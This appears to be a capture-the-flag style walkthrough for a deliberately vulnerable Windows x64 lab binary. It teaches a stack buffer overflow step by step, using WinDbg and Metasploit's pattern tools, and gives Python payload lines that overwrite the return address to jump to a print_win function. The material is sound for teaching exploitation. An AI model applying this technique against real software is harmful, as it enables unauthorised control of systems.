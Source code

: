 # Tingle's Basic x64 Stack Overflow

## You have one goal:
#### Print the flag without modifying the server.

<details>
	<summary>Spoilers</summary>

## Step one:
#### Get a crash
Run Tingle_01.exe in a WindDbg or set WinDbg as your postmortem debugger.

<details>

[WinDbg Cheat Sheet](https://blog.lamarranet.com/wp-content/uploads/2021/09/WinDbg-Cheat-Sheet.pdf)

![Get Windbg](/resources/WinDbgStore.PNG)

![Post Mortem Enable](/resources/postmortem.PNG)

</details>

Send a bunch of bytes to the server.

```python
	sock.send(b"A" * 50)
```

<details>

![Crash](/resources/AAAA.PNG)

</details>

You can see that we have written over the return address, causing an access violation.
This is because our program is trying to return to adress 0x4141414141414141, which is invalid.

(0x41 is the hex value for the ASCII letter "A")

## Step Two:
#### Figure out which A's are causing the return address overwrite.

You can get creative here or use tools.

I prefer to use tools.


<details>

[Metasploit-Framework](https://www.metasploit.com/)

[Kali Metasploit-Framework](https://www.kali.org/tools/metasploit-framework/)

<summary>msf-pattern_create and msf-pattern_offset</summary>

![Patterns](/resources/Pattern.PNG)

</details>

We'll begin by running ```msf-pattern_create -l 1000```

<details>

![Pattern Create](/resources/PatterCreate.PNG)

</details>


Then we'll change our python

From:
```python
sock.send(b"A" * 50)
```
To:
```python
sock.send(b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab")
```

And send it to the server.

<details>

![Pattern Bytes](/resources/PatternBytes.PNG)

</Details>

You can see that we have now overwrote the return address with ```0x3562413462413362```

You can also see that I ran the Display pointer-size value and Symbols command ```dps rsp```

This command will print the value rsp is pointing to, so you can more easily copy it.

Finally wee run ```msf-pattern_offset -l 50 -q 3562413462413362```

<details>

![Pattern Offset](/resources/PatternOffset.PNG)

</details>

Then we'll change our python

From:
```python
sock.send(b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab")
```
To:
```python
sock.send(b"A" * 40)
```

For now.

## Step Three:
#### Make the return address something fun.

Start Tingle_01.exe in WinDbg.

<details>

![Debug](/resources/RunInDebug.PNG)

</details>

Enter ```lm``` into the command window prompt.

<details>

![ListModules](/resources/TypeLM.PNG)

</details>

This command (List Modules) shows the modules that are loaded in our process.

We want to find the address of the ```print_win``` function.

So, we'll need to run Display Sybmols command ```x Tingle_01.exe!print_win``` in the WindDbg command prompt.

<details>

![Win Address](/resources/WinAddr.PNG)

</details>

This command shows us the address of the function.

We need to copy that address for our and update our python.
From:
```python
sock.send(b"A" * 40)
```
To:
```python
sock.send(b"A" * 40 + struct.pack("<Q", 0x0000000140002190))
```

You can read up on struct here [Struct](https://docs.python.org/3/library/struct.html).

Here we are turning our ```0x0000000140002190``` address into a ```"<Q"``` little endian 8 byte bytestring so we can send it.

# Profit:

We can run Tingle_01.exe in WinDbg and set a bp on the ```vuln``` function by running the command ```bp Tingle_01!vuln``` in the command prompt.

<details>

![Set Bp](/resources/SetBp.PNG)

</details>

Then we can change to assembly stepping from source stepping with the Step Source Options command ```l-t```.

Send our bytes with our python and once we hit our break point we can step down to the return instruction by

entering the step over instruction command ```p``` or the ```Step Over``` button in the top left a few times.

<details>

![Ret Instruction](/resources/Ret.PNG)

</details>

We can once again runn ```x Tingle_01.exe!print_win``` and ```dps rsp``` to see the address of the print_win function and the address
at which we are going to return.

<details>

![Ret Where??](/resources/ReturnToWhere.PNG)

</details>

You can see that we are about to return to the print_win function instead of main, where we were called from.

Run the Go command ```g``` or press the ```Go``` button in the top left to continue execution.

Pull up the console for our server and...

![Yay](/resources/Yay.PNG)

Though the server crashes in this case.

Wanna give it a go?

Compiling in debug will change the addresses, amongst other things. So, you can try to figure it out yourself.

</details>